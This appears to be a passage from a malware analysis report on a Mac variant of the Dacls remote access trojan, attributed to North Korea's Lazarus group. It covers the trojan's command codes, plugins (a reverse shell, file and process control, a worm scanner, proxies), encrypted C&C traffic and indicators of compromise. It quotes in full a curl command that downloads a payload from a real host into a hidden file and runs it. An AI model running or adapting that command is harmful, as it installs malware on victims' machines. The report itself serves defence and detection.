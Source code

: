  Main Loop After initializing the config file, the main loop is executed to perform the following four main commands:  Upload C&C server information from the config file to the server (0x601)Download the config file contents from the server and update the config file (0x602)Upload collected information from the victim’s machine by calling “getbasicinfo” function (0x700)Send heartbeat information (0x900) The command codes are exactly the same as Linux.dacls.     Plugins This Mac RAT has all the six plugins seen in the Linux variant with an additional plugin named “SOCKS”.  This new plugin is used to proxy network traffic from the victim to the C&C server. The app loads all the seven plugins at the start of the main loop. Each plugin has its own configuration section in the config file which will be loaded at the initialization of the plugin.     CMD plugin The cmd plugin is similar to the “bash” plugin in the Linux rat which  receives and executes commands by providing a reverse shell to the C&C server.     File Plugin The file plugin has the capability to read, delete, download, and search files within a directory. The only difference between the Mac and Linux version is that the Mac version does not have the capability to write files (Case 0).     Process plugin The process plugin has the capability of killing, running, getting process ID and collecting process information.     If the “/proc/%d/task” directory of a process is accessible, the plugin obtains the following information from the process where %d is the process ID: Command line arguments of the process by executing “/proc/ %/cmdline” Name, Uid, Gid, PPid of the process from the “/proc/%d/status” file.  Test plugin The code for the Test plugin between Mac and Linux variant is the same. It checks the connection to an IP and Port specified by the C&C servers. RP2P plugin The RP2P plugin is a proxy server used to avoid direct communications from the victim to the actor’s infrastructure.     LogSend plugin The Logsend plugin contains three modules that:  Check connection to the Log serverScan network (worm scanner module)Execute long run system commands    This plugin sends the collected logs using HTTP post requests.     An interesting function in this plugin is the worm scanner. The “start_worm_scan” can scan a network subnet on ports 8291 or 8292. The subnet that gets scanned is determined based on a set of predefined rules. The following diagram shows the process of selecting the subnet to scan.     Socks plugin The Socks plugin is the new, seventh plugin added to this Mac Rat. It is similar to the RP2P plugin and acts as an intermediary to direct the traffic between bot and C&C infrastructure. It uses Socks4 for its proxy communications.     Network Communications C&C communication used by This Mac RAT is similar to the Linux variant. To connect to the server, the application first establishes a TLS connection and then performs beaconing and finally encrypts the data sent over SSL using the RC4 algorithm.       Both Mac and Linux variants use the WolfSSL library for SSL communications. WolfSSL is an open-source implementation of TLS in C that supports multiple platforms. This library has been used by several threat actors. For example, Tropic Trooper used this library in its Keyboys malware.    The command codes used for beaconing are the same as the codes used in Linux.dacls.  This is to confirm the identity of the bot and the server.    The RC4 key is generated by using a hard-coded key.     Variants and detection We also identified another variant of this RAT which downloads the malicious payload using the following curl command:  curl -k -o ~/Library/.mina https://loneeaglerecords.com/wp-content/uploads/2020/01/images.tgz.001 > /dev/null 2>&1 && chmod +x ~/Library/.mina > /dev/null 2>&1 && ~/Library/.mina > /dev We believe this Mac variant of the Dcals RAT is associated with the Lazarus group, also known as Hidden Cobra and APT 38, an infamous North Korean threat actor performing cyber espionage and cyber-crime operations since 2009.  The group is known to be one of the most sophisticated actors, capable of making custom malware to target different platforms. The discovery of this Mac RAT shows that this APT group is constantly developing its malware toolset. Malwarebytes for Mac detects this remote administration Trojan as OSX-DaclsRAT.       IOCs 899e66ede95686a06394f707dd09b7c29af68f95d22136f0a023bfd01390ad53 846d8647d27a0d729df40b13a644f3bffdc95f6d0e600f2195c85628d59f1dc6 216a83e54cac48a75b7e071d0262d98739c840fd8cd6d0b48a9c166b69acd57d d3235a29d254d0b73ff8b5445c962cd3b841f487469d60a02819c0eb347111dd d3235a29d254d0b73ff8b5445c962cd3b841f487469d60a02819c0eb347111dd loneeaglerecords[.]com/wp-content/uploads/2020/01/images.tgz.001  67.43.239.146 185.62.58.207 50.87.144.227